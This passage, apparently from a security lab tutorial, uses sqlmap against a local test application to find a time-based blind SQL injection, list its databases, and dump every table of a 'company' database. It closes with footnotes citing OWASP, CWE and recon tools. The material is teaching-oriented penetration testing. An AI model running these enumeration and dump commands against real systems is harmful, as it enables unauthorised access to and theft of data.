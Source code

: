 >sqlmap -u ' [http://127.0.0.1/?username=lol&password=lol&version=beta](http://127.0.0.1/?username=lol&password=lol&version=beta)' --batch
>```
>Allow a minute for the tool to complete its analysis. Observe that `sqlmap` discovered that the application is vulnerable to time-based blind injection attacks!
>
>Enumerate the database names using the `--dbs` flag. Observe `sqlmap` slowly identifies each letter of each database name. After a few minutes, the databases `mysql`, `information_schema`, `performance_schema`, `sys`, and `company` are identified!
>```bash
>sqlmap -u ' [http://127.0.0.1/?username=lol&password=lol&version=beta](http://127.0.0.1/?username=lol&password=lol&version=beta)' --batch --dbs
>```
>The database `company` looks interesting. Run `sqlmap` targeting that database and dump all tables within it. 
>```bash
>sqlmap -u ' [http://127.0.0.1/?username=lol&password=lol&version=beta](http://127.0.0.1/?username=lol&password=lol&version=beta)' --batch -D company --dump
>```


[^1]: A03 Injection; OWASP Top 10.2021; March 10th 2024; https://owasp.org/Top10/A03_2021-Injection/
[^2]: CWE - CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection') (4.14); MITRE CWE; March 10th 2024; https://cwe.mitre.org/data/definitions/77.html
[^3]: WSTG - Stable; Testing for Command Injection; OWASP Foundation; March 10th 2024; https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection
[^4]: Google Advanced Search; Google; March 10th 2024; https://www.google.com/advanced_search
[^5]:Google Hacking Database (GHDB) - Google Dorks, OSINT, Recon; Exploit Database; March 10th 2024; https://www.exploit-db.com/google-hacking-database
[^6]: aboul3la/Sublist3r: Fast subdomains enumeration tool for penetration testers; GitHub; March 13 2024; https://github.com/aboul3la/Sublist3r
